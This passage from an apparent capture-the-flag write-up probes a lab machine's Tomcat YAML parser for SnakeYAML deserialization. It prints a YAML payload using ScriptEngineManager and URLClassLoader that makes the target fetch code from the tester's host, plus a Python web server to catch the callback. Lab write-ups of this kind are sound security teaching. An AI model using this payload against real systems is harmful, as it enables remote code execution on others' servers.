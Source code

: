 ## Yaml deserialization

There are only 2 ports open on the target machine, with tomcat being the biggest possible chance for success, so we will start there. Opening the page in our webbrowser we are greeted with a yaml parser on the homepage.

[![homepage.png](/img/ophiuchi/homepage.png)](/img/ophiuchi/homepage.png)

This might be vulnerable to deserialization if the base constructor is used for the yaml class. Following [this](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) blogpost we can test if we can make the server connect back to our machine with this piece of yaml. 

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.19/test"]
  ]]
]
```

We stand up a python webserver on the port we specified in our yaml payload.

```php
$sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then enter our yaml payload in the website and click on `Parse`.

[![probing.png](/img/ophiuchi/probing.png)](/img/ophiuchi/probing.png)
